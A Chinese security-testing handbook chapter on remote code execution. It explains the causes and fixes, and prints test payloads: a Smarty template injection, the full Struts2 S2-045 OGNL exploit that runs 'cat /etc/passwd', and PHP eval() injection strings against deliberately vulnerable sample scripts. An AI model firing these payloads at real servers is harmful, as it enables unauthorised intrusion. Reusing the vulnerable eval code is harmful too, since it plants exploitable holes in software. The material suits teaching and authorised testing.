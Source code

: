 ﻿# 远程代码执行漏洞

------

《Web安全测试学习手册》- 远程代码执行漏洞

------

## 0x00 远程代码执行漏洞 - 介绍

### 1）什么是远程代码执行漏洞

远程命令执行漏洞

英文名称：RCE (remote code execution) ，简称RCE漏洞，是指用户通过浏览器提交执行命令，由于服务器端没有针对执行函数做过滤，导致在没有指定绝对路径的情况下就执行命令，可能会允许攻击者通过改变 $PATH 或程序执行环境的其他方面来执行一个恶意构造的代码。

### 2）远程代码执行漏洞的特点

远程代码执行是指攻击者可能会通过远调用的方式来攻击或控制计算机设备，无论该设备在哪里。

---

## 0x01 远程代码执行漏洞 - 风险等级

高

---

## 0x02 远程代码执行漏洞 - 原理

在Web应用中有时候程序员为了考虑灵活性、简洁性，会在代码调用eval函数(PHP函数)去处理。比如当应用在调用一些能将字符串转化成代码的函数时，没有考虑用户是否能控制这个字符串，将造成代码执行漏洞。

由于开发人员编写源码，没有针对代码中可执行的特殊函数入口做过滤，导致客户端可以提交恶意构造语句提交，并交由服务器端执行。命令注入攻击中WEB服务器没有过滤类似system()，eval()，exec()，assert()，preg replace() + /e 模式等函数是该漏洞攻击成功的最主要原因。

---

## 0x03 远程代码执行漏洞 - 常见场景

* 使用了危险函数的Web应用

* 低版本的Java语言Struts 2 框架

---

## 0x04 测试方案

### PHP中常见场景 - 模板引擎代码执行

Smarty简介

> Smarty是一个PHP的模板引擎。更明确来说，它可以帮助开发者更好地 分离程序逻辑和页面显示。最好的例子，是当程序员和模板设计师是不同的两个角色的情况，而且 大部分时候都不是同一个人的情况。

> CVE-ID : CVE-2017-1000480

产生原因：由于未对用户的输入点进行过滤，导致经过eval函数，造成代码执行

测试Payload：

```php
*/phpinfo();/*
```

![0x00.png](https://whitecell.io/upload/attach/201810/151_Q7UQ2FQZBK6GMYU.png "0x00.png")

### Java Struts2 （S2-045）

Struts 2 简介

> Struts2是一个基于MVC设计模式的Web应用框架，它本质上相当于一个servlet，在MVC设计模式中，Struts2作为控制器(Controller)来建立模型与视图的数据交互。Struts 2是Struts的下一代产品，是在 struts 1和WebWork的技术基础上进行了合并的全新的Struts 2框架。

> CVE-ID : CVE-2017-5638

产生原因：由于未对用户输入点进行过滤，被带入ErrorMessage，当做OGLN表达式解析，造成代码执行

测试Payload：

```java
%{(#nikenb='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='cat /etc/passwd').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
```

![0x01.png](https://whitecell.io/upload/attach/201810/151_U5DJ59BAB32PBTM.png "0x01.png")

---

## 0x05 修复方案

### 通用修复方案

升级插件、框架新版本

### 具体修复方案

* 1.使用低权限用户执行应用程序。

* 2.升级到修复后的组件版本。

* 3.配置或代码过滤危险函数。

* 4.对于eval()函数一定要保证用户不能轻易接触eval的参数或者用正则严格判断输入的数据格式。

* 5.对于字符串一定要使用单引号包裹可控代码，并且插入前进行addslashes.

* 6.对于preg_replace放弃使用e修饰符。如果必须要用e修饰符，请保证第二个参数中，对于正则匹配出的对象，用单引号包裹 。

---

## 0x06 简单应用

### eval()函数简单利用

#### eval()函数漏洞利用 1

eval.php源代码

```php
<?php

error_reporting(0);

$data = $_GET['data'];
eval("\$ret = $data;");
echo $ret;
```

* /?data=phpinfo()

http://127.0.0.1/eval.php?data=phpinfo()

![Snipaste_2018-10-16_23-50-40.png](https://whitecell.io/upload/attach/201810/151_DYA63KETRJ8KN6P.png "Snipaste_2018-10-16_23-50-40.png")

* /?data=1;phpinfo()

http://127.0.0.1/eval.php?data=1;phpinfo()

![Snipaste_2018-10-16_23-53-00.png](https://whitecell.io/upload/attach/201810/151_HM9E94MW953QU9Q.png "Snipaste_2018-10-16_23-53-00.png")

* /?data=${phpinfo()}

http://127.0.0.1/eval.php?data=${phpinfo()}

![Snipaste_2018-10-16_23-54-55.png](https://whitecell.io/upload/attach/201810/151_EA6ERWN8GEZWFZM.png "Snipaste_2018-10-16_23-54-55.png")

#### eval()函数利用 2

eval.php源代码

```php
<?php

error_reporting(0);

$data = $_GET['data'];
eval("\$ret = strtolower('$data');");
echo $ret;
```

* /?data=1');phpinfo();//

http://127.0.0.1/eval.php?data=1%27);phpinfo();//

![Snipaste_2018-10-16_23-59-51.png](https://whitecell.io/upload/attach/201810/151_XJ23D6YM4Z7GXJ5.png "Snipaste_2018-10-16_23-59-51.png")

#### eval()函数利用 3

eval.php源代码

```php
<?php

error_reporting(0);

$data = $_GET['data'];
eval("\$ret = strtolower(\"$data\");");
echo $ret;
```

* /?data=${phpinfo()}【不适用于低版本PHP，测试5.5.38】

http://127.0.0.1/eval.php?data=${phpinfo()}

![Snipaste_2018-10-17_00-08-32.png](https://whitecell.io/upload/attach/201810/151_2EVBA7X7GNN73AS.png "Snipaste_2018-10-17_00-08-32.png")

* /?data=1";phpinfo();//

http://127.0.0.1/eval.php?data=1%22);phpinfo();//

![Snipaste_2018-10-17_00-10-53.png](https://whitecell.io/upload/attach/201810/151_GXYV5F9D6ZH4V23.png "Snipaste_2018-10-17_00-10-53.png")

### epreg replace() + /e函数简单利用

eval.php源代码

/?data=`<data>${phpinfo()}</data>`

http://127.0.0.1/eval.php?data=%3Cdata%3E${phpinfo()}%3C/data%3E

![Snipaste_2018-10-17_00-22-31.png](https://whitecell.io/upload/attach/201810/151_AJ5AZM2MB4DFJBE.png "Snipaste_2018-10-17_00-22-31.png")

------

作者 [@Mannix][1]     
2018 年 10月 17日

参考文档作者 [@Rvn0xsy][2]     
2018 年 03月 22日

[1]: http://mannix.top/
[2]: https://payloads.online/archivers/2018-03-22/1